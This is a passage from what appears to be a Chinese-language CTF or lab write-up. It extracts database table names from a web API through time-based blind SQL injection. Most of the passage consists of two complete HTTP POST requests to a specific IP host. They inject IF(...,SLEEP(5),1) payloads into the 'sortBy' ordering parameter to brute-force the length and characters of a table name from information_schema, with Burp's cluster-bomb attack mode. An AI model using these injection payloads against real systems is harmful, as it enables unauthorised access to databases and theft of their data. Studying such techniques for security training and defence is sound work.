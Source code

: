 ```
112 114 111 100 117 99 116 115   第一个表的名字是   products
```

### 爆破第二个表的长度

```
POST /api/developer_utils/sorted_query HTTP/1.1
Host: 113.45.189.144:5000
User-Agent: Burp
Accept: application/json
Content-Type: application/json
Origin: http://113.45.189.144:5000
Referer: http://113.45.189.144:5000/
Connection: close

{"query":"%","sortBy":"name,IF(LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema='webapp_db' LIMIT 1,1))=1,SLEEP(5),1)","order":"asc"}
```

![image-20250904011237989](images/image-20250904011237989.png)

长度是7，继续爆破名字

```
POST /api/developer_utils/sorted_query HTTP/1.1
Host: 113.45.189.144:5000
User-Agent: Burp
Accept: application/json
Content-Type: application/json
Origin: http://113.45.189.144:5000
Referer: http://113.45.189.144:5000/
Connection: close

{"query":"%","sortBy":"name,IF(ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema='webapp_db' LIMIT 1,1),1,1))=109,SLEEP(5),1)","order":"asc"}
```

#### 依旧集群炸弹

![image-20250904011443415](images/image-20250904011443415.png)
